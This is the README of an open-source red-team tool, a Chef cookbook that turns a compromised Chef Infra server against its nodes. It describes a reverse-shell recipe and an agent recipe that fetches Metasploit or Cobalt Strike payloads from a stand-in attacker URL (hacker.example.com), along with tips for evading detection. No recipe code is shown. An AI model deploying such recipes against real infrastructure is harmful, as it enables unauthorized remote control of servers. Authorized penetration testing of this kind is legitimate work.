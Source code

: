 [![Ko-fi](https://www.ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/h4ckninja)

# Line Cook

This is Line Cook. It's a sister project to Prep Station. Both tools are for pentesters and Red Teams to target Chef Infra server installations.

# About

This cookbook is geared towards pentesters and Red Teams who have access to a [Chef Infra server](https://www.chef.io/products/chef-infra/) during an engagement and want to gain control over the nodes in it.

I've been playing around with this idea for a while, but shoutout to [Ryan Wendel](https://www.ryanwendel.com/2017/10/03/cooking-up-shells-with-a-compromised-chef-server/) for doing this first. It's good to see Chef and similar products get some attention because they can be a veritable gold mine in engagements.

I came across this blog post while looking to see if anybody has done this before, rather than reinventing the wheel. While he did, it was a one-off, and I didn't see anybody who had something more distributable. If I'm wrong, feel free to link me to resources. 

I've also got a [blog post](https://h4ck.ninja/2020/02/27/im-in-your-chef-server/) about stealing data from Chef.


# Goals

This cookbook is intended to be a lightweight tool to introduce your CnC tools, like Metasploit and CobaltStrike. It doesn't replace good OpSec practices. That said, if you have ideas or suggestions, please submit tickets.

I want this cookbook to be "living off the land". I don't want to download new gems or install packages on to pwned servers. Even pushing Metasploit and CobaltStrike is questionable as enterprises are moving to EDR products, which can get you caught real fast.


# Help

This is my contribution to the community. I think Chef Infra is a wonderful product, when configured and used properly ... However, I have a full-time job and I [stream on Twitch](https://twitch.tv/h4ckninja) so my time is limited when looking at tickets. Please feel free to submit PRs and suggestions. If you feel up to it, I also welcome [tips](https://ko-fi.com/h4ckninja). It'll also tell me that I need to spend more time on this project.

That all said, enjoy!

# Recipes

## Reflection

This recipe is a simplistic reverse connection. It handles Windows and *nix hosts, with basic error handling for invalid commands.

*Note:* This will block the `chef-client` from completing the run until you disconnect. You should be aware of possible timeouts and logging on the Chef server that monitors recipes taking an excessive amount of time.

There's a few options that can be controlled:

`attributes/reflection.rb`

| Option | Default Value | Explanation |
| ------ | ------------- | ----------- |
| default['line_cook']['reflection']['host'] | 127.0.0.1 | The host to send the reverse shell back to. |
|  default['line_cook']['reflection']['port'] | 4444 | The port your system is listening on to receive connections |

## Agent

This recipe handles downloading of external resources, such as Cobalt Strike beacons or Metasploit payloads to the node.

Unlike the reflection recipe, this action attempts to be non-blocking, allowing the recipe to exit quickly to avoid detection through timeouts or excessive run times.


`attributes/agent.rb`

| Option | Default Value | Explanation |
| ------ | ------------- | ----------- |
| default['line_cook']['agent']['windows']['download'] | http://hacker.example.com/metasploit.exe | The download URL for your agent. This agent can be CobaltStrike, Metasploit, or something custom. It must be a Windows PE file. |
| default['line_cook']['agent']['windows']['save_path'] | C:\metasploit.exe | The save path to the file system. |
| default['line_cook']['agent']['linux']['download']  | http://hacker.example.com/metasploit | The download URL to the executable for *nix systems. This must be an ELF file. |
| default['line_cook']['agent']['linux']['save_path'] | /tmp/metasploit | The save path on *nix systems. |

## Cleanup

This recipe is a very simple cleanup of your downloaded agents. You can set it to the runlist after you are finished.


# Runlists

This can be as concurrent as your CnC can handle. Keep track of the nodes you set to the run list so you can unset them to avoid reconnections to your CnC.
